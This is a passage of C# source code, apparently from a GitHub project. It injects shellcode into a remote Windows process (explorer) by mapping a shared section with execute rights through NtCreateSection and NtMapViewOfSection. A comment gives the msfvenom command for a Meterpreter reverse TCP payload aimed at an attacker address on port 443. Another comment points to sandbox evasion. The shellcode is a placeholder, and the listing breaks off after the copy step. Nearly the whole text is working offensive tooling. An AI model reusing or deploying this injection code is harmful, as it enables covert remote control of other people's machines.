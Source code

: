 ```cs
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [System.Runtime.InteropServices.DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [System.Runtime.InteropServices.DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        static void Main(string[] args)
        {
            // allocate memory in the virtual address space of current process
            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);

            // if (mem == null) { return; } // Sandbox evasion

            // msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.123 LPORT=443 -f csharp
            byte[] buf = new byte[510] { SHELLCODE_GO_HERE; }

            int len = buf.Length;
            uint uLen = (uint)len;

            // Get a handle on the local process
            IntPtr lHandle = Process.GetCurrentProcess().Handle;

            // Opens an existing local process for interaction e.g: explorer.exe
            string targetedProc = "explorer"; //change the process name
            int procId = Process.GetProcessesByName(targetedProc).First().Id; // Grab the right Process ID
            IntPtr pHandle = OpenProcess(ProcessAllFlags, false, procId); // Get a handle on the remote process

            // Create a RWX memory section with the size of the payload using 'NtCreateSection'
            IntPtr sHandle = new IntPtr();
            long cStatus = NtCreateSection(ref sHandle, GenericAll, IntPtr.Zero, ref uLen, PageReadWriteExecute, SecCommit, IntPtr.Zero);
            Console.WriteLine($"Created new shared memory section with handle {sHandle}. Success: {cStatus == 0}.");

            // Map a view of the created section (sHandle) for the LOCAL process using 'NtMapViewOfSection'
            IntPtr baseAddrL = new IntPtr();
            uint viewSizeL = uLen;
            ulong sectionOffsetL = new ulong();
            long mStatusL = NtMapViewOfSection(sHandle, lHandle, ref baseAddrL, IntPtr.Zero, IntPtr.Zero, out sectionOffsetL, out viewSizeL, 2, 0, PageReadWrite);

            // Map a view of the same section for the specified REMOTE process (pHandle) using 'NtMapViewOfSection'
            IntPtr baseAddrR = new IntPtr();
            uint viewSizeR = uLen;
            ulong sectionOffsetR = new ulong();
            long mStatusR = NtMapViewOfSection(sHandle, pHandle, ref baseAddrR, IntPtr.Zero, IntPtr.Zero, out sectionOffsetR, out viewSizeR, 2, 0, PageReadExecute);

            // Copy shellcode to locally mapped view, which will be reflected in the remote mapping section due to shared memory
            Marshal.Copy(buf, 0, baseAddrL, len);

```